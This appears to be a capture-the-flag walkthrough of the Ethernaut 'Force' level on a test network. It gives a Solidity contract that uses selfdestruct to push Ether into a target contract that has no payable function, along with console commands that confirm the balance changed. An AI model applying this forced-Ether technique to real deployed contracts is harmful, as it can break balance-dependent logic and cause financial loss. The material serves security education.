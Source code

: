 force 

// contract has no logic built in it; empty contract

// this does NOT mean that contract cannot have a balance > 0!

// though contract is not explicitly payable, contract CAN still receive funds via the recipient of a selfdestruct being called on another function


*contracts attacking contracts*

```javascript
instance // => returns contract address (Ropsten)
await getBalance(instance) // => returns 0 indicating the contract holds no funds at the moment
```

---

to Remix!

---

create new contract! (CAUTION: disposable code ahead..)

```solidity
pragma solidity ^0.4.15;

contract ForceEth {
	// create state variable for readability
	address private forceContract; 

	// constructor
	// insert contract address as constructor parameter (returned from calling 'instance' in JS console above)
	function ForceEth(address _addr) public payable {
		forceContract = _addr;
	}

	function kill() public {
		// pass in forceContract state variable as argument for suicide
		selfdestruct(forceContract); // selfdestruct => alias for suicide
	}

	function() payable { }
}
```

- deploy using injectedWeb3 enviro - Ropsten - (passing in some eth amount to value, and address of ethernaut 'Force' contract instance)
- once contract successfully deployed, kill it!

---

back to the console!

---

```javascript
await getBalance(instance) // => returns whatever amount of eth you passed in when deploying the ForceEth contract...no longer 0!
```

